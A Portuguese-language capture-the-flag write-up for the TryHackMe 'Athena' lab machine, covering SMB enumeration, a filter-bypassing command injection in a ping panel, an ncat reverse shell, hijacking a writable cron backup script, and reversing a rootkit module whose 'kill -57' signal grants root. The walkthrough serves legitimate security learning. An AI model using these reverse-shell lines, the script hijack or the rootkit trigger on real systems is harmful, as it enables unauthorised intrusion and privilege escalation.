






[ Athena - Tryhackme ]
[ By: Detrew ]
__
/ \--..____
\ \ \-----,,,..
\ \ \ \--,,..
\ \ \ \ ,'
\ \ \ \ ``..
\ \ \ \-''
\ \ \__,,--'''
\ \ \.
\ \ ,/
\ \__..-
\ \
\ \
\ \
\ \
\ \
\ \
\ \
\ \
\ \
Ola Amigos, Hoje eu vou mostrar como resolver a maquina Athena que Foi lançada recentemente pelo Matheuz essa maquina esta categorizada como medium pelo TryHackMe, enfim vamos la!
[@] Enumeração
Com a maquina iniciada vamos para um simples Recon usando o Nmap.
dem0n@kali:~/Ctf/thm/athena$ nmap -A -T5 10.10.196.131
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 14:35 EDT
Warning: 10.10.196.131 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.196.131
Host is up (0.24s latency).
Not shown: 963 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
| 256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_ 256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Athena - Gods of olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open netbios-ssn Samba smbd 4.6.2
445/tcp open netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb2-time:
| date: 2023-09-16T18:36:39
|_ start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: unknown, NetBIOS MAC: unknown (unknown)
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
|_clock-skew: 6s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.28 seconds
Como podemos ver temos um smb rodando, vamos tentar entrar de cara sem nenhum login usando o ultilitario smbclient
dem0n@kali:~/Ctf/thm/athena$ smbclient -L //10.10.196.131/
Password for [WORKGROUP\dem0n]:
Anonymous login successful
Sharename Type Comment
--------- ---- -------
public Disk
IPC$ IPC IPC Service (Samba 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
Vemos que temos apenas um public para olhar pois o IPC$ é padrão do smb, vamos olhar o public e ver oque temos.
dem0n@kali:~/Ctf/thm/athena$ smbclient //10.10.196.131/public
Password for [WORKGROUP\dem0n]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sun Apr 16 20:54:43 2023
.. D 0 Sun Apr 16 20:54:05 2023
msg_for_administrator.txt N 253 Sun Apr 16 14:59:44 2023
19947120 blocks of size 1024. 9693044 blocks available
smb: \> get msg_for_administrator.txt
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
aqui vemos que temos um arquivo que é uma mensagem para um administrador lendo o arquivo que baixamos temos a seguinte mensagem
Dear Administrator,
I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel
Yours sincerely,
Athena
Intern
aqui vemos que temos um sistema de Ping em /myrouterpanel vamos acessar ele e ver qual vunerabilidade podemos achar.
[ /myrouterpanel ]

Temos um painel simples de pingar um Ip.. vamos analizar com o burp a chamada que ele faz e vamos tentar entender sobre
[@] Exploração Web
Analizando os parametros que o codigo executa isso apenas deve estar fazendo um ping -c 4 no ip que selecionamos
isso pode ter alguma vunerabilidade de Command Injection então ja vou jogar a request no Repeater do burp e vamos analizar :D
[ Repeater ]

Vamos tentar injetar um codigo vamos colocar apenas um simples ; para ver qual a resposta que o servidor ira mandar..

Vemos que ele barrou, ele deve ter algum filtro que barra eu colocar esses caracteres... vamos tentar de outra maneira usando uma lista de payloads do git https://github.com/omurugur/OS_Command_Payload_List/blob/master/OS-Command-Fuzzing.txt
testando varios finalmente um foi que era usando url Encode para fazer uma quebra de linha e seguir com o codigo

e esta la! um Command injection, agora vamos escalar para uma shell reversa ultilizando o ultilitario ncat pois ele esta presente na maquina.

ultilizando isso vamos para o nosso terminal e vamos ver se recebemos algo..
dem0n@kali:~/Ctf/thm/athena$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.10.168] from (UNKNOWN) [10.10.196.131] 35510
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
temos uma shell :D vamos agora vamos deixar ela melhor usando os seguintes comandos
script /dev/null -c bash
Script started, file is /dev/null
www-data@routerpanel:/var/www/html/myrouterpanel$ export TERM=xterm
export TERM=xterm
www-data@routerpanel:/var/www/html/myrouterpanel$
ok tudo pronto, partiu para a parte mais divertida, a escalação de privilegios!
[#] Escalação Lateral
Eu vi que existe o usuario Athena, procurando um pouco e não achando nada que me ajudase a pegar esse usuario eu rodei um pspy para ver os processos que rodava.
www-data@routerpanel:/tmp/.a$ wget 10.9.10.168:1337/pspy
wget 10.9.10.168:1337/pspy
--2023-09-16 12:45:36-- http://10.9.10.168:1337/pspy
Connecting to 10.9.10.168:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy'
pspy 100%[===================>] 2.96M 909KB/s in 3.7s
2023-09-16 12:45:40 (824 KB/s) - 'pspy' saved [3104768/3104768]
www-data@routerpanel:/tmp/.a$ chmod +x pspy
chmod +x pspy
www-data@routerpanel:/tmp/.a$ ./pspy
./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
# Eu cortei alguns processos
2023/09/16 12:49:48 CMD: UID=0 PID=2261 | /sbin/init auto noprompt
2023/09/16 12:49:48 CMD: UID=1001 PID=2262 | /bin/bash /usr/share/backup/backup.sh
2023/09/16 12:49:48 CMD: UID=1001 PID=2263 | /bin/bash /usr/share/backup/backup.sh
2023/09/16 12:49:48 CMD: UID=1001 PID=2264 | /bin/bash /usr/share/backup/backup.sh
2023/09/16 12:49:48 CMD: UID=1001 PID=2265 | /bin/bash /usr/share/backup/backup.sh
2023/09/16 12:49:48 CMD: UID=1001 PID=2266 | rm /home/athena/backup/*.sh
Rodando ele percebi que esta um processo rodando a cada minuto que se encontra em /usr/sahre/backup/backup.sh vamos analizar ele.
www-data@routerpanel:/usr/share/backup$ ls -la
ls -la
total 20
drwxr-xr-x 2 athena www-data 4096 May 28 18:59 .
drwxr-xr-x 236 root root 12288 May 26 12:44 ..
-rwxr-xr-x 1 www-data athena 258 May 28 18:59 backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh
cat backup.sh
#!/bin/bash
backup_dir_zip=~/backup
mkdir -p "$backup_dir_zip"
cp -r /home/athena/notes/* "$backup_dir_zip"
zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"
rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh
echo "Backup completed..."
www-data@routerpanel:/usr/share/backup$
Aqui podemos ver que temos acesso a editar o arquivo backup.sh e ele faz um script simples de backup das notas do usuario athena, vamos apenas add um simples comando de ncat
para pegar uma conexão desse usuario ultilizando o echo mesmo e esperar..
www-data@routerpanel:/usr/share/backup$ echo "ncat 10.9.10.168 1337 -e /bin/bash" > backup.sh
" > backup.sh.9.10.168 1337 -e /bin/bash"
www-data@routerpanel:/usr/share/backup$
## e em outro terminal
dem0n@kali:~$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.10.168] from (UNKNOWN) [10.10.196.131] 35988
id
uid=1001(athena) gid=1001(athena) groups=1001(athena)
Agora temos o usuario athena, ok legal vamos agora pegar nossa flag de usuario e escalar ate o root!
[#] Rootando a maquina (Reversing Rootkit)
ok dando um sudo -l percebemos que temos acesso a um insmod de um kernel object chamado venom.ko.. isso deve ser algum rootkit que temos que dar reversing nele.
athena@routerpanel:/$ sudo -l
sudo -l
Matching Defaults entries for athena on routerpanel:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User athena may run the following commands on routerpanel:
(root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/$
Vamos baixar o possivel rootkit e colocar ele no ghidra para analizar, colocando no ghidra e analizando temos certeza que isso é um rootkit pelas funções que o ghidra mandou

Vendo isso vamos ver a Function Hacked_kill responsavel por fazer as manipulações do sinais de kill e dar assim fazendo o rootkit realizar algumas coisas
Observando aqui vemos que ele tem uma parte no codigo que deve ser responsavel para nos dar root via o comando kill
if (iVar3 == 0x39) {
give_root();
iVar3 = __x86_return_thunk();
return iVar3;
}
aqui vemos que ele caso p valor da var3 por 0x39 = 57 ele vai executar a func chamado give_root então vamos testar na maquina..
athena@routerpanel:/$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/$ kill -57 0
kill -57 0
athena@routerpanel:/$ whoami
whoami
root
athena@routerpanel:/$
E Boom Temos Root :D agora apenas vamos pegar a flag em /root e pontuar, amei esse desafio bem divertido para quem for aprender sobre reversing de rootkit e afins
Amei fazer esse desafio, fui o 2 a terminar hehe, incentivo vocês a fazerem por que tem um segredinho esperando vocês em /root..
.=====__
/==Z' .===_ ~~=,_===\
_/ | | YZ, `\, ~\
| | | _/=j'\ !, d
__====_| | b/ V`; /' .M ,
`5\==/~~ W, t d+, .D4| / /'|/~~~\=__ .-
`\ t~\ | |t`~~T/'|Z :/ | ~~\=/V
\ | \4, | ~/~' :Z -! | |
\, /\__| \\.! :XG \ / ._, ./'
`L | ~; V; _//' | \ .f~' `~; .b_
./ \\__JL `; Y7~ | / / d //' \,
.! `D\, `\, | .! .t/ .(_/=~ \
/ `;`~~~=+=qLb, jK_L==f' j'' `;
./ .(r, `~\5' ~\\,._r/ |
~=m! ./D' `\, \, !G~ t
~==___===/'/ .!`\__ /! __=~\\~=_ TG=
| .| ~\=\=r@/~5 \ !, ~=_, __//'
|./~V || `| \, t ~~~~\==~~
t| | | | | !\, \=_,
! t .! !, \ `\/~~~
| / !\/\
`; ./ `~-
t .!
N, ./'
`\/' systemctl suspend ~ Detrew
[Voltar]